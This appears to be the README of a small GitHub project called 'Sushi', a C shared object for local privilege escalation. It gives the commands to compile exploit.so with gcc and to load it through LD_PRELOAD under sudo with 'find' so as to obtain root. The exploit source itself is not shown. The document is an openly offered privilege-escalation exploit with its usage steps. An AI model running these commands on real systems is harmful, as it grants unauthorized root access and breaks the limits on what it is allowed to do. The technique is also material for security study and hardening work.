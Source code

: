 # Sushi
Sushi すし, a shared object written in C language to perform LPE (Local Privilege Escalation) within vulnerable UNIX kernels using the LD_PRELOAD check

# Compile and run
- Use the following command to create the shared object:
`gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`
- Now use this shared object as a value for LD_PRELOAD and get root privileges:
`sudo LD_PRELOAD=/home/exploit.so find`

